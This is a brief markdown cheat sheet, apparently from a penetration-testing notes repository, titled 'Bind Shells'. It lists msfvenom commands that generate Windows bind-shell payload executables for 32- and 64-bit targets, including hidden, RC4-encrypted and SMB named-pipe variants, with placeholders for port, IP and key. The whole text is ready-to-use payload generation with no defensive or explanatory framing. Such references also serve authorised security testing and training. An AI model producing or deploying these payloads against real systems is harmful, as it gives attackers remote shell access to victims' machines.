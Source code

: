 # Bind Shells

1. x86 (32-bit) Payloads

`$ msfvenom -p windows/shell/bind_tcp lport=<PORT> -f exe -o shell-x86.exe`

`$ msfvenom -p windows/shell/bind_hidden_tcp ahost=<IP> lport=<PORT> -f exe -o hidden-shell-x86.exe`

`$ msfvenom -p windows/shell/bind_tcp_rc4 lport=<PORT> rc4password=<KEY> -f exe -o shell-x86.exe`

For the SMB pipe the default for LPORT will always be port 445

`$ msfvenom -p windows/shell/bind_named_pipe lport=<PORT> pipename=<PIPENAME> -f exe -o shell-x86.exe`

2. x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/shell/bind_tcp lport=<PORT> -f exe -o shell-x86-64.exe`

`$ msfvenom -p windows/x64/shell/bind_tcp_rc4 lport=<PORT> rc4password=<KEY> -f exe -o shell-x86-64.exe`